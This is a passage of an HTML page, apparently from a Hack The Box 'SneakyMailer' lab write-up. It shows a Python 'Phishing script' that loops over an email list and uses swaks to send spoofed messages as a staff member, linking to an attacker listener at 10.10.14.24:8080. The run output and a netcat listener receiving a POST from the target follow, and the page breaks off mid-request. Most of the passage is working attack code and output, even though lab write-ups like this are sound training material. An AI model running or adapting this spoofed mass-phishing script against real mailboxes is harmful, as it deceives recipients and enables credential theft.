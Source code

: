 <h1>Phishing script</h1>

<pre><span class="kn">import</span> <span class="nn">os</span>
<span class="k">def</span> <span class="nf">open_ressources</span><span class="p">(</span><span class="n">file_path</span><span class="p">):</span>
    <span class="k">return</span> <span class="p">[</span><span class="n">item</span><span class="p">.</span><span class="n">replace</span><span class="p">(</span><span class="s">"</span><span class="se">\n</span><span class="s">"</span><span class="p">,</span> <span class="s">""</span><span class="p">)</span> <span class="k">for</span> <span class="n">item</span> <span class="ow">in</span> <span class="nb">open</span><span class="p">(</span><span class="n">file_path</span><span class="p">).</span><span class="n">readlines</span><span class="p">()]</span>
<span class="n">wordlist</span> <span class="o">=</span> <span class="n">open_ressources</span><span class="p">(</span><span class="s">"emails"</span><span class="p">)</span>

<span class="k">for</span> <span class="n">emails</span> <span class="ow">in</span> <span class="n">wordlist</span><span class="p">:</span>
        <span class="k">print</span> <span class="s">"</span><span class="se">\n</span><span class="s">[+]Sending email to "</span> <span class="o">+</span> <span class="n">emails</span>
        <span class="n">command</span> <span class="o">=</span> <span class="s">'swaks --from "angelicaramos@sneakymailer.htb" --body "http://10.10.14.24:8080" --to '</span> <span class="o">+</span> <span class="n">emails</span> <span class="o">+</span> <span class="s">" &gt; /dev/null"</span>
        <span class="c1">#print command
</span>        <span class="n">os</span><span class="p">.</span><span class="n">system</span><span class="p">(</span><span class="n">command</span><span class="p">)</span>
</pre>

<blockquote>Result after running the script</blockquote>
<pre>➜  sneakymailer python spoof-msg.py                                                    

<span class="o">[</span>+]Sending email to airisatou@sneakymailer.htb

<span class="o">[</span>+]Sending email to angelicaramos@sneakymailer.htb

<span class="o">[</span>+]Sending email to ashtoncox@sneakymailer.htb

<span class="o">[</span>+]Sending email to bradleygreer@sneakymailer.htb
</pre>  
 
<blockquote>The response on listener</blockquote>  
<pre><span class="err">➜  m19o nc -nlvp 8080 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:48426.
</span><span class="nf">POST</span> <span class="nn">/</span> <span class="k">HTTP</span><span class="o">/</span><span class="m">1.1</span>
<span class="na">Host</span><span class="p">:</span> <span class="s">10.10.14.24:8080</span>
<span class="na">User-Agent</span><span class="p">:</span> <span class="s">python-requests/2.23.0</span>
<span class="na">Accept-Encoding</span><span class="p">:</span> <span class="s">gzip, deflate</span>
<span class="na">Accept</span><span class="p">:</span> <span class="s">*/*</span>
<span class="na">Connection</span><span class="p">:</span> <span class="s">keep-alive</span>
<span class="na">Content-Length</span><span class="p">:</span> <span class="s">185</span>
<span class="na">Content-Type</span><span class="p">:</span> <span class="s">application/x-www-form-urlencoded</span>
